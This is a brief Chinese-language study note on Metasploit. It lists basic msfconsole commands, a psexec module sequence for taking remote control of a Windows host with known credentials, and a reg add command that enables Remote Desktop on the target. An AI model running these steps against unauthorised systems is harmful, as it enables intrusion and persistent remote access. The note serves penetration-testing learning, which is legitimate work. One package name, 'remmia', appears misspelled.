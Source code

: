 # MSF

全称：`Metasploit Framework` ，以下简称MSF

开源渗透测试平台

能识别、验证、利用系统中的漏洞

模块化的框架



漏洞利用

辅助模块：扫描、嗅探、网络发现

Payloads：生成载荷

后渗透：维权、提权



## 启动信息解读：

![image-20241120160505434](../../_media/image-20241120160505434.png)

- 2437个自带的攻击方式
- 1471个自带的payloads脚本





## 常见用法

启动

```shell
msfconsole
```



搜索漏洞模块

```
search [关键词]
```



使用漏洞模块

```
use [模块名]
```



进到模块之后不知道配置：

```
options
```



设置目标

```
set RHOSTS [目标ip]
set RPORT [目标端口]
```



运行攻击

```
exploit
```



## psexec模块远控

知道账号密码前提下远程控制

```
use exploit/windows/smb/psexec

set rhost [ip]
set smbpass [密码]
set smbuser [账号]

run
```



开放对方3389端口，然后远程桌面连接：

```
shell

reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```





kali远控可以下载：

```
sudo apt install remmia
```

